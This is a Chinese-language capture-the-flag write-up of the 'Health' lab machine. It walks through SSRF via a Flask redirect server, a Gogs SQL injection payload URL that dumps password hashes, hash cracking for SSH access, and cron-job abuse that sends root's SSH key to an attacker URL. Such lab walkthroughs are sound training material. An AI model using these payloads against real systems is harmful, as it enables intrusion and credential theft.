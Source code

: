 # Health

Health 是一台中型 Linux 计算机，在主网页上存在 SSRF 漏洞，可利用该漏洞访问仅在 localhost 上可用的服务。更具体地说，Gogs 实例只能通过 localhost 访问，并且此特定版本容易受到 SQL 注入攻击。由于攻击者可以与 Gogs 实例交互的方式，在这种情况下，最好的方法是通过在本地计算机上安装相同的 Gogs 版本，然后使用自动化工具生成有效的有效负载来复制远程环境。在检索用户“susanne”的哈希密码后，攻击者能够破解哈希并泄露该用户的纯文本密码。可以使用相同的凭据通过 SSH 向远程计算机进行身份验证。权限提升依赖于在用户“root”下运行的 cron 作业。这些 cron 作业与主 Web 应用程序的功能相关，并处理数据库中未经筛选的数据。因此，攻击者能够在数据库中注入恶意任务并泄露用户“root”的 SSH 密钥文件，从而允许他在远程计算机上获得 root 会话。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d00fd879-a641-725a-19e9-91647d4c5f4a.png)

### Web枚举

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/08aa96e3-ab8c-b041-6810-73de7f9a9fc8.png)

看起来就觉得可能存在SSRF，扫一下vhost

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/90da3f6c-e6b5-da4d-e5fa-7bf85332daef.png)

还有过滤

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/4ca97b46-55ff-0847-9ca0-5414e4b12bdb.png)

test

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/a32f1970-8ba9-ba16-b1eb-457f7ce17cfd.png)

监听url会有一个get请求，当我断开nc之后，payload url又来了一个post

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/84e90bb5-5f39-93d6-ef68-296338b270a0.png)

本地起个http server，当监听url访问过来的时候重定向到localhost

```python3
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def index():
    return redirect('http://127.0.0.1')

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8001)
```

这里一定要是always，否则payload url可能收不到post请求

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/3e9670b4-11d7-a8c3-18e2-8364d4f094b4.png)

可以看到响应，说明重定向成功了

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/7a6083d1-1726-6bc0-ec66-128b62d984fe.png)

接下来就可以爆破端口，找到内网的服务，为了方便直接wp跳过这些无聊的环节

3000端口有一个gogs

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/13eaf4a0-0320-6310-0ba4-fe17984ccb0c.png)

## Foothold

谷歌能找到该版本似乎存在sql injection

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/0db5f581-1799-eedb-4654-be4ef9dc531c.png)

poc:

	http://127.0.0.1:3000/api/v1/users/search?q=')%09union%09all%09select%091,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27%09--%09-

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/fd7d7fe6-09ef-a6aa-bc27-d4420f32dce9.png)

查数据

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/f36a145c-467a-c899-e3e6-8ea111786628.png)

得到susanne的密码hash

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/f7573df6-0901-8495-a657-ccdd2b3ff155.png)

在谷歌中能搜到gogs使用PBKDF2 + hmac + sha256

	https://github.com/kxcode/KrackerGo/tree/master


[这里](https://github.com/hashcat/hashcat/issues/1583)也描述了如何利用它

将16进制转回去如何base64

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/1af6407e-6593-c1e2-fc9e-6cb79b7fd354.png)

将salt base64

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/000b0a45-3bab-f675-548e-5727046c1049.png)

hashcat

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/47c21399-b3e4-204b-23a6-a4765093c161.png)

不出意外我们能够通过这种凭据登录ssh

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/4f102eea-1db1-d36f-743b-33dd5e346ea7.png)

## 本地权限提升

传个pspy

```shell
2024/01/17 15:29:01 CMD: UID=0     PID=4350   | /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
2024/01/17 15:29:01 CMD: UID=0     PID=4351   | sleep 5 
2024/01/17 15:29:01 CMD: UID=???   PID=4354   | ???
2024/01/17 15:29:01 CMD: UID=0     PID=4352   | 
2024/01/17 15:29:01 CMD: UID=0     PID=4357   | grep columns 
2024/01/17 15:29:01 CMD: UID=???   PID=4356   | ???
2024/01/17 15:29:01 CMD: UID=0     PID=4355   | sh -c stty -a | grep columns 
2024/01/17 15:29:06 CMD: UID=0     PID=4358   | mysql laravel --execute TRUNCATE tasks 
```

从artisan跟到app/Console/Kernel.php

```php
protected function schedule(Schedule $schedule)
    {

        /* Get all tasks from the database */
        $tasks = Task::all();

        foreach ($tasks as $task) {

            $frequency = $task->frequency;

            $schedule->call(function () use ($task) {
                /*  Run your task here */
                HealthChecker::check($task->webhookUrl, $task->monitoredUrl, $task->onlyError);
                Log::info($task->id . ' ' . \Carbon\Carbon::now());
            })->cron($frequency);
```

同时，在网站根目录下的.env文件中也包含了mysql的凭据

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/b8b740fb-c309-960e-8bf1-32f7c887ad57.png)

进到mysql后有个tasks空表，desc

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/0307d6bf-0768-622f-7d83-68123c6bc223.png)

应该就是之前的web，直接读root ssh key然后返回到我们的payload url

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/bb1c542f-43f1-513d-e75b-800092631442.png)

nc

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/e81a1006-46aa-9140-d775-a7c3514b487a.png)

sed将\n转义和去除多余的\

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d0ff3842-3955-39a4-34ef-87cafd4a237c.png)

登root的ssh

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/51d6c199-077f-c3c8-cff9-831bd66e487d.png)

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/898a9f60-2143-2438-f04f-a11ac5264fa3.png)

其实也可以直接在tasks里读root flag
